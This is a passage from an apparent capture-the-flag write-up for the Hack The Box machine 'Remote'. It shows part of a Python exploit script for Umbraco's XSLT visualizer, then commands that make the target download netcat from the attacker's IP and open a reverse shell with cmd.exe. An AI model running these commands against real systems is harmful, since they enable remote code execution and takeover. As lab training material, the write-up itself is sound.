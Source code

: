 ```python
VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value']
UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN']
headers = {'UMB-XSRF-TOKEN': UMBXSRFTOKEN}
data = { "__EVENTTARGET": "", "__EVENTARGUMENT": "", "__VIEWSTATE": VIEWSTATE,
    "__VIEWSTATEGENERATOR": VIEWSTATEGENERATOR,
    "ctl00$body$xsltSelection": payload,
    "ctl00$body$contentPicker$ContentIdValue": "",
    "ctl00$body$visualizeDo": "Visualize+XSLT" }

# Launch the attack
r4 = s.post(url_xslt, data=data, headers=headers)
# Filter output
soup = BeautifulSoup(r4.text, 'html.parser')
CMDOUTPUT = soup.find(id="result").getText()
print(CMDOUTPUT)
```

Since it is a windows machine, we will upload a netcat windows binary to use to get a reverse shell, by first starting a http server on our kali machine

```
sudo python3 -m http.server 80 --dir /usr/share/windows-resources/binaries/
```

and then run the exploit like so

```
python3 exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a "(new-object system.net.webclient).downloadfile('http://10.10.14.41/nc.exe','c:/users/public/nc.exe')"
```

followed by

```
python3 exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c "c:/users/public/nc.exe" -a "10.10.14.41 1234 -e cmd.exe"
```

We pop a shell and have access to the user.txt

![user flag](/assets/img/writeups/remote_usershell.png)

<h4 align="center">On To Root!</h4>
